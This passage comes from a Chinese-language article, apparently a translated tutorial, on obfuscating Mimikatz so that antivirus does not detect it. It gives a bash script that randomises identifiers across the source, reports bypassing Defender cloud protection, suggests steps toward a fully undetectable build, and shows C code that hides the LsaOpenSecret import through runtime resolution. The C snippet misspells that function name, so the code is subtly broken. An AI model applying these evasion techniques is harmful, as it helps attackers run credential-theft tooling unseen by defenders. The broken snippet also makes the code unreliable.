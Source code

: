 ```
    mv "${FILE}" "${newfile}";
done

under=$(cat /dev/urandom | tr -dc "a-z" | fold -w 4 | head -n 1)
find windows/ -type f -print0 | xargs -0 sed -i "s/_m_/$under/g"

find windows/ -type f -name "*_m_*" | while read FILE ; do
    newfile="$(echo ${FILE} |sed -e "s/_m_/$under/g")";
    mv "${FILE}" "${newfile}";
done


```

将上面提到的所有字符串添加到我们的 bash 脚本中，此时的脚本是长[这样](https://gist.github.com/S3cur3Th1sSh1t/cb040a750f5984c41c8f979040ed112a)的。

执行 bash 脚本，编译并上传到 Virustotal，结果如下:

[![](https://xzfile.aliyuncs.com/media/upload/picture/20200923172934-4ab52b8e-fd7f-1.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20200923172934-4ab52b8e-fd7f-1.jpeg)

在原有的基础上替换更多的字符串，看起来并没有能够很好的绕过 AV。但是在编写本文时，这个二进制文件足以绕过 Defender 的云保护。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20200923172944-50902392-fd7f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200923172944-50902392-fd7f-1.png)

### 0x06 还有更多要做的事情

如果还想更进一步，试图获得 FUD，其实可以做得更多。比如可以替换 fuction 名称，而不是使用大小写混淆；也可以通过所有的其他的 C 源码文件和库文件来搜索可能被标记的特征等，并将其进行替换或者删除不需要的函数。

再比如，Mimikatz 输出的错误信息也有可能是特征之一，如果我们并不需要它详细的错误信息，那么可以直接删除它们。可以使用 `STRG + SHIFT + H` 组合键，搜索并替换整个项目中的字符串。例如以下操作：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20200923172958-59432a70-fd7f-1.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20200923172958-59432a70-fd7f-1.jpeg)

大部分 AV/EDR 厂商也使用了关于 API 导入的检测方法。关于混淆 C/C++ 源码以隐藏 API 导入，Plowsec 有两篇非常好的文章。它们分别是 [Engineering antivirus evasion](https://blog.scrt.ch/2020/06/19/engineering-antivirus-evasion/) 和 [Engineering antivirus evasion (Part II)](https://blog.scrt.ch/2020/07/15/engineering-antivirus-evasion-part-ii/)。

在 Mimikatz 中，使用了很多 Windows API，为了能够更好的隐藏 API，可以借鉴以下的例子。例如要隐藏 LSAOpenSecret，在 Mimikatz 中可以使用以下代码：

```
typedef NTSTATUS(__stdcall* _LsaOSecret)(
    __in LSA_HANDLE PolicyHandle,
    __in PLSA_UNICODE_STRING SecretName,
    __in ACCESS_MASK DesiredAccess,
    __out PLSA_HANDLE SecretHandle
    );
char hid_LsaLIB_02zmeaakLCHt[] = { 'a','d','v','a','p','i','3','2','.','D','L','L',0 };
char hid_LsaOSecr_BZxlW5ZBUAAe[] = { 'L','s','a','O','p','e','n','S','e','c','e','t',0 };
HANDLE hhid_LsaLIB_asdasdasd = LoadLibrary(hid_LsaLIB_02zmeaakLCHt);
_LsaOSecret ffLsaOSecret = (_LsaOSecret)GetProcAddress(hhid_LsaLIB_asdasdasd, hid_LsaOSecr_BZxlW5ZBUAAe);


```
